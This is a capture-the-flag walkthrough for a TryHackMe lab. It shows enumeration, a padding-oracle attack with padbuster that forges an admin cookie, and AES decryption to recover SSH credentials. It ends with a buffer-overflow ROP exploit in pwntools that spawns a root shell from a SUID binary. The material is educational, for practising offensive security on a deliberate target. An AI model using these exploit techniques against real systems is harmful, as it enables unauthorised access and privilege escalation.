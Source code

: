 # [hc0n Christmas CTF](https://tryhackme.com/room/hc0nchristmasctf)

## hackt the planet

### What is the user flag?

1. First, enumerate available ports with nmap to identify running services

```bash
nmap IP
```

![SCREEN01](https://github.com/user-attachments/assets/a102ff30-5800-4ff5-8814-9ed7ef89d43a)

2. Visiting the web service at `http://IP:8080`, we discover a ciphertext **RwO9+7tuGJ3nc1cIhN4E31WV/qeYGLURrcS7K+Af85w=**. This appears to be Base64-encoded, likely AES-encrypted data that we'll need to decrypt later

3. Enumerate directories on the web server with gobuster to discover hidden paths

```bash
gobuster dir -u IP -w /root/Desktop/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt
```

![SCREEN02](https://github.com/user-attachments/assets/47673379-ac6f-494c-955d-f133688ed568)

4. Examining `http://IP/robots.txt` provides valuable information:

   - Admin username: **administratorhc0nwithyhackme**
   - Reference to an image at `http://IP/iv.png`

5. The image at `http://IP/iv.png` contains text encoded with the Cicada 3301 cipher. Using the translation tables from [uncovering-cicada.fandom](https://uncovering-cicada.fandom.com/wiki/How_the_solved_pages_of_the_Liber_Primus_were_solved), we can decrypt it:

   - Decrypted text: **THEIVFORINGEOAEY**
   - This appears to be the Initialization Vector (IV) needed for AES decryption

6. Register a new account at `http://IP/register.php` and examine the cookies:

   - In your browser, open DevTools -> Storage -> Cookies

7. Use padbuster to perform a Padding Oracle Attack and forge a cookie for the admin user (select option **2** when prompted)

```bash
padbuster http://IP/login.php "COOKIE_VALUE" 8 --cookies hcon=COOKIE_VALUE --encoding 0 -plaintext user=administratorhc0nwithyhackme
```

![SCREEN03](https://github.com/user-attachments/assets/a7f5b0ea-8d7a-4af2-b3ad-0f570e2c9e90)

8. Replace your existing cookie with the newly generated encrypted value, then refresh the page:
   - In the admin panel, you'll find the SecretKeySpec: **hconkwithyhackme**
   - This is the encryption key needed to decrypt the AES ciphertext

![SCREEN04](https://github.com/user-attachments/assets/d6e1924d-f1e6-439f-9017-4fe48e7cbb9e)

9. With all required elements now collected, we can decrypt the ciphertext from step 2:
   - Visit [AES decryption site](https://www.devglan.com/online-tools/aes-encryption-decryption)
   - Input the ciphertext: `RwO9+7tuGJ3nc1cIhN4E31WV/qeYGLURrcS7K+Af85w=`
   - Key: `hconkwithyhackme`
   - IV: `THEIVFORINGEOAEY`
   - Mode: CBC
   - Key Size: 128 bits
   - Output Text Format: Text
   - The decrypted value reveals the SSH username: **thedarktangent**

![SCREEN05](https://github.com/user-attachments/assets/05234f3f-a35e-4150-8348-36af4660e5f6)

10. Continuing with directory enumeration, investigate `http://IP/hide-folders/`:

    - This directory contains two subdirectories: `/1/` and `/2/`
    - Accessing `/1/` results in a "Method Not Allowed" error

11. To bypass the method restriction on `/1/`:
    - In DevTools, right-click the `http://IP/hide-folders/1/` request
    - Select "Edit and Resend"
    - Change the HTTP method from `GET` to `OPTIONS`
    - This reveals the first part of the SSH password: **Gf7MRr55**

![SCREEN06](https://github.com/user-attachments/assets/e711c1d8-920c-420b-96a0-a0be792b3ba8)

12. To obtain the second part of the password, download the file from `http://IP/hide-folders/2/`:
    - The executable prompts for a username and password
    - Use the credentials found in the strings output: **stuxnet:n$@#PDuliL**
    - After login, it reveals the second part of the SSH password: **n$@#PDuliL**

```bash
chmod +x hola
strings hola
./hola
# login with stuxnet:n$@#PDuliL
```

![SCREEN07](https://github.com/user-attachments/assets/0a91af5e-b435-4c71-90df-0e6169667518)
![SCREEN08](https://github.com/user-attachments/assets/7ef79b55-3a75-4bb1-8121-84c628fcf8cf)

13. Put together the password parts and login via SSH to obtain the user flag

```bash
ssh thedarktangent@IP
# Password: Gf7MRr55n$@#PDuliL
cat user.txt
```

![SCREEN09](https://github.com/user-attachments/assets/626ef445-ab9a-4cde-a11b-167cbcf930dc)

---

### What is the root flag?

1. Search for potential privilege escalation vectors by identifying SUID binaries:
   - this will be the `home/thedarktangent/hc0n`

```bash
find / -perm -u=s -type f 2>/dev/null
```

![SCREEN10](https://github.com/user-attachments/assets/efca6f69-2af7-4dd5-a07e-3936a334306a)

2. Transfer the binary to our attacking machine for analysis:

```bash
# On target machine
python3 -m http.server
```

![SCREEN11](https://github.com/user-attachments/assets/5169e3c1-c865-4bfd-a374-f2997c0cafb2)

```bash
# On attacking machine
wget http://IP:8000/hc0n
```

![SCREEN12](https://github.com/user-attachments/assets/0a1c2c49-b1a6-4d8c-bda9-e24a2ec976cc)

3. Test the binary for buffer overflow vulnerabilities
   - The program crashes with a **SIGSEGV, Segmentation fault**, confirming it's vulnerable to buffer overflow.

```bash
python -c "print 'A'*200" > A.in
gdb hc0n
r < A.in
```

![SCREEN13](https://github.com/user-attachments/assets/c8dabd4a-4f01-4e77-8184-19892b76b69a)

4. Generate a unique pattern to identify the exact offset needed:

```bash
/opt/metasploit-framework/embedded/framework/tools/exploit/pattern_create.rb -l 200
```

![SCREEN14](https://github.com/user-attachments/assets/e968bb16-149d-4ab1-8b4a-45a6f9447e5a)

5. Use the generated pattern in GDB to find the exact crash point:

```bash
gdb -q hc0n
r
# When prompted, paste the generated pattern
x $rbp
# Note the value in RBP register
```

![SCREEN15](https://github.com/user-attachments/assets/65fccb28-4d9a-419b-a4e5-33f971875caa)

6. Calculate the precise offset:

```bash
/opt/metasploit-framework/embedded/framework/tools/exploit/pattern_offset.rb -q 0x6241376241366241
```

![SCREEN16](https://github.com/user-attachments/assets/5081deed-675f-41b6-8311-b7d1f9c251d5)

7. Create and test a payload to verify our control of the instruction pointer

```bash
python -c "print('A'*56 + '\x43\x43\x42\x42\xfe\xfe\xff\xff')" > payload.in

gdb hc0n
r < payload.in
```

![SCREEN17](https://github.com/user-attachments/assets/6a913517-af25-411a-8ad8-1e133bceb9b4)

8. Create [an exploit](https://deskel.github.io/posts/thm/hc0n-christmas-ctf) using pwntools to gain a root shell

```python
from pwn import *
import sys

HOST = "IP"
PORT = 22

def SROP_exploit(r):
	pop_rax = 0x40061f
	pop_rdi = 0x400604
	pop_rsi = 0x40060d
	pop_rdx = 0x400616
	bin_sh = 0x4006f8
	syscall = 0x4005fa

	payload = "A"*56
	payload += p64(pop_rax)
	payload += p64(59)
	payload += p64(pop_rdi)
	payload += p64(bin_sh)
	payload += p64(pop_rsi)
	payload += p64(0x0)
	payload += p64(pop_rdx)
	payload += p64(0x0)
	payload += p64(syscall)

	print(r.recvline())
	r.sendline(payload)
	r.interactive()

if __name__== "__main__":
	r = ssh(host=HOST, port=PORT, user="USERNAME", password="PASSWORD")
	s = r.run('./hc0n')
	SROP_exploit(s)
```

9. Run the exploit and obtain the root flag

```bash
pip install pwntools
python script.py

whoami
cat /root/root.txt
```

![SCREEN18](https://github.com/user-attachments/assets/9a379784-7cd1-44e9-bf47-af4a8ace7e49)
